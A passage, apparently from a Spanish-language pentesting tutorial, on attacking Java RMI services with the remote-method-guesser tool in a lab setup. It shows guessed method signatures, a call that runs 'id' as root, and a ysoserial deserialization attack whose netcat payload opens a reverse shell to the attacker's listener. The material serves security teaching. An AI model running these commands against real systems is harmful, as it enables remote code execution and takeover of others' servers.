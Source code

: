 ```
[+] 		[ legacy-service ] HIT! Method with signature String login(java.util.HashMap dummy1) exists!
[+] 		[6562 / 6562] [#####################################] 100%
[+] 	done.
[+]
[+] Listing successfully guessed methods:
[+]
[+] 	- plain-server2 == plain-server
[+] 		--> String execute(String dummy)
[+] 		--> String system(String dummy, String[] dummy2)
[+] 	- legacy-service
[+] 		--> void logMessage(int dummy1, String dummy2)
[+] 		--> void releaseRecord(int recordID, String tableName, Integer remoteHashCode)
[+] 		--> String login(java.util.HashMap dummy1)
```
Los métodos identificados pueden ser llamados de la siguiente manera:
```
$ rmg call 172.17.0.2 9010 '"id"' --bound-name plain-server --signature "String execute(String dummy)" --plugin GenericPrint.jar
[+] uid=0(root) gid=0(root) groups=0(root)
```
O puedes realizar ataques de deserialización de la siguiente manera:
```
$ rmg serial 172.17.0.2 9010 CommonsCollections6 'nc 172.17.0.1 4444 -e ash' --bound-name plain-server --signature "String execute(String dummy)"
[+] Creating ysoserial payload... done.
[+]
[+] Attempting deserialization attack on RMI endpoint...
[+]
[+] 	Using non primitive argument type java.lang.String on position 0
[+] 	Specified method signature is String execute(String dummy)
[+]
[+] 	Caught ClassNotFoundException during deserialization attack.
[+] 	Server attempted to deserialize canary class 6ac727def61a4800a09987c24352d7ea.
[+] 	Deserialization attack probably worked :)

$ nc -vlp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:45479.
id
uid=0(root) gid=0(root) groups=0(root)
```
Más información se puede encontrar en estos artículos:

* [Atacando servicios Java RMI después de JEP 290](https://mogwailabs.de/de/blog/2019/03/attacking-java-rmi-services-after-jep-290/)
* [Adivinanza de métodos](https://github.com/qtc-de/remote-method-guesser/blob/master/docs/rmg/method-guessing.md)
* [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)
* [rmiscout](https://bishopfox.com/blog/rmiscout)
